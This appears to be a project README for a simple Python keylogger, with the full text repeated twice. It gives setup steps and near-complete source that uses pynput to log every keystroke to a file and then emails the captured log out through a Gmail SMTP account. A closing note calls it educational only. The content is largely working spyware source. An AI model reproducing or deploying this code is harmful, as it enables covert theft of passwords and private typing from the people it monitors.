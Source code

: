 OverviewOverview

Modern keyloggers have advanced features that can document the exact date and time of each keystroke, the application in which keystrokes were inputted, and provide user-friendly log displays.

This program is a basic keylogger with limited capabilities, specifically:

    Capturing and storing keystrokes in a file named keylogger.txt
    Sending the file's contents to an email address using a Gmail account without two-factor authentication.

Requirements

This keylogger requires the following modules:

    smtplib (pre-installed in Python)
    ssl (pre-installed in Python)
    pynput (requires installation via pip install pynput)

Setup and Execution

    Clone or download the repository containing the keylogger.py file.

    Install the required modules if not already installed:

    sh

pip install pynput

Configure the email parameters in the keylogger.py file:

python

sender_mail = "user@domain.com"  # Replace with your sender email
receiver_mail = "user@domain.com"  # Replace with your receiver email
password = "passcode"  # Replace with your sender email password

Run the keylogger by navigating to the directory containing keylogger.py and executing the following command in the terminal:

sh

    python keylogger.py

    Terminate the keylogger by pressing the Escape key.

Code Explanation

The keylogger program is divided into several sections:

    Email Setup: Configures the email parameters including sender and receiver email addresses, email password, and SMTP server details.

    python

sender_mail = "user@domain.com"
receiver_mail = "user@domain.com"
password = "passcode"
port = 587
message = """From: user@domain.com
To: user@domain.com                         
Subject: KeyLogs
Text: Keylogs 
"""

Writing Keystrokes to a File: A function to append keystrokes to keylogger.txt.

python

def write(text):
    with open("keylogger.txt", 'a') as f:
        f.write(text)
        f.close()

SMTP Server Connection: Establishes a connection to the SMTP server for sending emails.

python

server = smtplib.SMTP('smtp.gmail.com', port)
server.starttls()
server.login(sender_mail, password)

Keyboard Event Handling: Functions to handle key press and release events.

python

def on_key_press(key):
    try:
        if key == keyboard.Key.enter:
            write("\n")
        else:
            write(key.char)
    except AttributeError:
        if key == keyboard.Key.backspace:
            write("\nBackspace Pressed\n")
        elif key == keyboard.Key.tab:
            write("\nTab Pressed\n")
        elif key == keyboard.Key.space:
            write(" ")
        else: 
            temp = repr(key) + " Pressed\n"
            write(temp)

def on_key_release(key):
    if key == keyboard.Key.esc:
        return False

Starting the Keylogger: Initiates the keyboard listener and sends an email with the logged keystrokes.

python

with keyboard.Listener(on_press=on_key_press, on_release=on_key_release) as listener:
    listener.join()

with open("keylogger.txt", 'r') as f:
    temp = f.read()
    message = message + str(temp)
    f.close()

server.sendmail(sender_mail, receiver_mail, message)

Error Handling and Cleanup: Handles any exceptions and closes the SMTP connection.

python

    except Exception as e:
        print("An error occurred:", e)
    finally:
        server.quit()

Important Notes

    Ethical Use: This keylogger is for educational purposes only. Ensure you have permission before using it on any system.
    Security: Using a Gmail account without two-factor authentication is not recommended for security reasons.
    Legal Compliance: Be aware of and comply with all local, state, and federal laws regarding the use of keyloggers.



Modern keyloggers have advanced features that can document the exact date and time of each keystroke, the application in which keystrokes were inputted, and provide user-friendly log displays.

This program is a basic keylogger with limited capabilities, specifically:

    Capturing and storing keystrokes in a file named keylogger.txt
    Sending the file's contents to an email address using a Gmail account without two-factor authentication.

Requirements

This keylogger requires the following modules:

    smtplib (pre-installed in Python)
    ssl (pre-installed in Python)
    pynput (requires installation via pip install pynput)

Setup and Execution

    Clone or download the repository containing the keylogger.py file.

    Install the required modules if not already installed:

    sh

pip install pynput

Configure the email parameters in the keylogger.py file:

python

sender_mail = "user@domain.com"  # Replace with your sender email
receiver_mail = "user@domain.com"  # Replace with your receiver email
password = "passcode"  # Replace with your sender email password

Run the keylogger by navigating to the directory containing keylogger.py and executing the following command in the terminal:

sh

    python keylogger.py

    Terminate the keylogger by pressing the Escape key.

Code Explanation

The keylogger program is divided into several sections:

    Email Setup: Configures the email parameters including sender and receiver email addresses, email password, and SMTP server details.

    python

sender_mail = "user@domain.com"
receiver_mail = "user@domain.com"
password = "passcode"
port = 587
message = """From: user@domain.com
To: user@domain.com                         
Subject: KeyLogs
Text: Keylogs 
"""

Writing Keystrokes to a File: A function to append keystrokes to keylogger.txt.

python

def write(text):
    with open("keylogger.txt", 'a') as f:
        f.write(text)
        f.close()

SMTP Server Connection: Establishes a connection to the SMTP server for sending emails.

python

server = smtplib.SMTP('smtp.gmail.com', port)
server.starttls()
server.login(sender_mail, password)

Keyboard Event Handling: Functions to handle key press and release events.

python

def on_key_press(key):
    try:
        if key == keyboard.Key.enter:
            write("\n")
        else:
            write(key.char)
    except AttributeError:
        if key == keyboard.Key.backspace:
            write("\nBackspace Pressed\n")
        elif key == keyboard.Key.tab:
            write("\nTab Pressed\n")
        elif key == keyboard.Key.space:
            write(" ")
        else: 
            temp = repr(key) + " Pressed\n"
            write(temp)

def on_key_release(key):
    if key == keyboard.Key.esc:
        return False

Starting the Keylogger: Initiates the keyboard listener and sends an email with the logged keystrokes.

python

with keyboard.Listener(on_press=on_key_press, on_release=on_key_release) as listener:
    listener.join()

with open("keylogger.txt", 'r') as f:
    temp = f.read()
    message = message + str(temp)
    f.close()

server.sendmail(sender_mail, receiver_mail, message)

Error Handling and Cleanup: Handles any exceptions and closes the SMTP connection.

python

    except Exception as e:
        print("An error occurred:", e)
    finally:
        server.quit()

Important Notes

    Ethical Use: This keylogger is for educational purposes only. Ensure you have permission before using it on any system.
    Security: Using a Gmail account without two-factor authentication is not recommended for security reasons.
    Legal Compliance: Be aware of and comply with all local, state, and federal laws regarding the use of keyloggers.

